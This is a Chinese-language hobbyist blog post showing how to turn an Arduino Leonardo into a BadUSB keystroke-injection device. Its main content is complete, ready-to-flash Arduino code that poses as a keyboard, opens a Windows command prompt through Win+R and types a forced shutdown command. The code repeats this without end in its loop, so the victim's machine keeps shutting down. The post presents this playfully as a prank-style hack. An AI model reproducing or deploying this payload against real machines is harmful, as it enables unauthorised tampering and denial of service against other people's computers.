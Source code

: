 ```yaml
---
title: Arduino Leonardo 打造 Bad USB
date: 2016-11-27 02:48:23
tags: hack 
categories: hack
---
```


嘿嘿嘿，又是一篇猥琐小文。

<!--more -->

# 简介

BadUSB最可怕的一点是恶意代码存在于U盘的固件中，由于PC上的杀毒软件无法访问到U盘存放固件的区域，因此也就意味着杀毒软件和U盘格式化都无法应对BadUSB进行攻击。

# 目标
Bad USB

# 效果
![](content/images/preview.gif)

# 原料
1. Arduino Leonardo
2. 普通安卓USB线

# 🌰

```C
#include <Keyboard.h>

void setup() {//初始化
   Keyboard.begin();//开始键盘通讯 
  delay(5000);//延时
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500); 
  Keyboard.press('r');//r键 
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
  Keyboard.release(KEY_CAPS_LOCK);
  delay(500); 
  Keyboard.println("CMD");
  delay(500); 
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  delay(3000); 
  Keyboard.println("shutdown -s -t 10");
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  Keyboard.press(KEY_CAPS_LOCK);
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.end();//结束键盘通讯 
}
void loop()//循环
{
   Keyboard.begin();//开始键盘通讯 
  delay(5000);//延时
  Keyboard.press(KEY_LEFT_GUI);//win键 
  delay(500); 
  Keyboard.press('r');//r键 
  delay(500); 
  Keyboard.release(KEY_LEFT_GUI);
  Keyboard.release('r');
  Keyboard.press(KEY_CAPS_LOCK);//利用开大写输小写绕过输入法
  Keyboard.release(KEY_CAPS_LOCK);
  delay(500); 
  Keyboard.println("CMD");
  delay(500); 
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  delay(3000); 
  Keyboard.println("shutdown -s -t 10");
  Keyboard.press(KEY_RETURN);
  Keyboard.release(KEY_RETURN);
  Keyboard.press(KEY_CAPS_LOCK);
  Keyboard.release(KEY_CAPS_LOCK);
  Keyboard.end();//结束键盘通讯 
}
```


# 参考
http://www.freebuf.com/sectool/107242.html
